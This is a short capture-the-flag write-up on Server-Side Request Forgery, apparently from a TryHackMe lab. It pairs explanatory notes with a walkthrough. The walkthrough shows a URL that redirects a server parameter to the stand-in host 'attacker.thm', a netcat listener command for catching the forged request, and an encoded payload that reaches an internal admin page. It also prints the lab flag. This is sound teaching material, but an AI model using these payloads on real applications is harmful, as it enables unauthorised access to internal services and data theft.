


# Server-Side Request Forgery 

## Introduction 
Server-Side Request Forgery (SSRF) is a security vulnerability where attackers manipulate a web application into sending requests to different destinations using the application's own capabilities. 

## Key Points 
• SSRF vulnerabilities often emerge when web applications interact with third-party services. 

• For example, a web application might send SMS notifications using an external API, requiring an API key for authentication. 

• The vulnerability arises if the application allows users to manipulate the server parameter directing requests to the SMS provider. 

• An attacker could change the server value to point to their own machine, prompting the application to send requests to the attacker instead of the intended provider, allowing the attacker to control message sending at the expense of the original user. 

• The attacker could execute a simple request, like: 
`https://www. mysite.com/sms? server=attacker. thm&amp;msg=ABC` 

• This would redirect the web application to send a request to: 
`https://attacker. thm/api/send? msg=ABC` 

• Using tools like Netcat, the attacker can capture the contents of the request. 

• SSRF can allow attackers to do more than just send requests, including: 

• Enumerating internal networks and identifying IP addresses and ports. 

• Exploiting trust relationships between servers for restricted access. 

• Interacting with non-HTTP services, potentially leading to remote code execution (RCE). 

## Conclusion 
To better understand and exploit SSRF vulnerabilities, visit http://MACHINE_IP:8087/ and locate the admin area as a targeted objective. Follow the specific instructions provided to access restricted areas of the website.

# Try Hack me Challenge

So this challenge is fun. You have to use burp suite to do SSRF. We stop the request while downloading the cv. This way we can change the server to our machine ip.
In a terminal we use: nc -lvp 8030, and in burpsuite we change the server address to: MACHINE_IP:8030 and forward the request. This way we can get the flag. 

Now for the last challenge, i couldnt figure out how to use burp to get it.. now what i did was get the url for the server where we download the pdf from. Then i changed server to localhost:8087/admin%23%&id=75482342 . the %23% represents the hash symbol in URLs. Basically this is obfuscation.

This allows us to have access to the admin where we find the flag:  thm{c4n_i_haz_flagz_plz?}

